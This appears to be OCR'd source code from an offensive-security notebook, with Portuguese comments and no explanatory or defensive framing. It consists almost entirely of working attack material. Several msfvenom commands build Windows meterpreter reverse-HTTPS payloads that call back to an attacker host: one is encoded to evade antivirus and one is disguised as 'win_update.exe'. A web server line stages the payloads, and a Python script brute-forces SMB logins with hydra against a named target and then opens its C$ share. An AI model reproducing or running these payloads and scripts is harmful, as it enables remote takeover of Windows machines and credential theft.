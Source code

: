 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Gerando o script Python para brute force SMB + conexão automática via smbclient

script_content_smb = """
import subprocess

ip_alvo = "192.168.1.84"  # IP alvo
userlist_path = "users_atibaia.txt"  # Lista de usuários
wordlist_path = "wordlist_atibaia.txt"  # Lista de senhas

print(f"Iniciando brute force SMB contra {ip_alvo}...\\n")

# Executa brute force via hydra
comando = [
    "hydra",
    "-L", userlist_path,
    "-P", wordlist_path,
    "-t", "1",
    "-V",
    f"smb://{ip_alvo}"
]

resultado = subprocess.run(comando, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

# Se encontrar a senha no output do hydra
for linha in resultado.stdout.splitlines():
    if "login:" in linha and "password:" in linha:
        print("\\n====> Usuário e senha encontrados! Resultado:")
        print(linha)
        
        # Extrair usuário e senha
        partes = linha.split()
        usuario = None
        senha = None
        for i, parte in enumerate(partes):
            if parte.startswith("login:"):
                usuario = parte.split("login:")[1]
            if parte.startswith("password:"):
                senha = parte.split("password:")[1]

        if usuario and senha:
            print(f"Conectando automaticamente com smbclient usando {usuario}:{senha}")
            subprocess.Popen(["smbclient", f"//{ip_alvo}/C$", "-U", usuario, f"-W", "WORKGROUP"], stdin=subprocess.PIPE).communicate(input=f"{senha}\\n".encode())
        else:
            print("Usuário ou senha não puderam ser extraídos automaticamente, verifique manualmente.")
        break
else:
    print("Nenhuma combinação encontrada ou tentativa falhou.")

print("Brute force SMB concluído.")
"""

with open("/mnt/data/bruteforce_smb_ready.py", "w") as f:
    f.write(script_content_smb)

print("Script pronto criado como 'bruteforce_smb_ready.py'.")




